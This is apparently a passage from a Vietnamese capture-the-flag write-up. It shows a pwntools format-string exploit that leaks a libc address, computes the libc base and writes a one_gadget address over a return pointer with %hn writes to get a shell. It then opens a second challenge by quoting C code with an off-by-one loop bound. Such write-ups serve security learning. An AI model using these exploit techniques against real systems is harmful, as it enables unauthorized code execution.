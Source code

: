 ```python
    leak_libc = int(r.recv(14), 16)
    libc.address = leak_libc - 147587
    log.info("leak libc & leak stack: " +
             hex(leak_libc) + " " + hex(leak_stack))
    log.info("libc base: " + hex(libc.address))
```

- Do trong file không có hàm nào chứa `system("/bin/sh")`, nên ta sẽ ret2libc, cụ thể là one_gadget, one_gadget ta cần là `libc.sym['one_gadget'] = 0xe3b01`
- Vậy ta cần phải là ghi đè one_gadget vào rip
- Ta cần chuẩn bị một số bước

- Chỗ này lú quá, nên ta có thể coi lại video `Tấn công địa chỉ base của .fini_array` =))

```python
    package = {
        (libc.sym['one_gadget'] >> 0) & 0xffff: ret_replace_2 + 0,
        (libc.sym['one_gadget'] >> 16) & 0xffff: ret_replace_2 + 2,
        (libc.sym['one_gadget'] >> 32) & 0xffff: ret_replace_2 + 4,
    }
    order = sorted(package)
    payload = f'%{order[0]}c%20$hn'.encode()
    payload += f'%{order[1] - order[0]}c%21$hn'.encode()
    payload += f'%{order[2] - order[1]}c%22$hn'.encode()
    payload = payload.ljust(0x60, b'P')
    payload += flat(
        package[order[0]],      #địa chỉ
        package[order[1]],
        package[order[2]],
    )
    r.sendlineafter(b'about v2: ', payload)
```

## Kết quả

<details><summary> full script </summary></details>

# Squirrel Feeding

## Source

<details><summary> source C </summary></details>

## Ý tưởng

- Bài này em tham khảo wu ạ

```c
void increment(map *m, char *key, size_t amount) {
    size_t hash = hash_string(key);
    if (hash == 0)
        return;

    size_t index = hash % BIN_COUNT;

    for (size_t i = 0; i <= BIN_COUNT; i++) {
        map_entry *entry = &m->data->bins[index][i];

        // Increment existing
        if (strncmp(entry->name, key, MAX_NAME_LEN) == 0) {
            entry->weight += amount;
            printf("Squirrel %s has weight %zu lbs\n", entry->name, entry->weight);
            return;
        }
```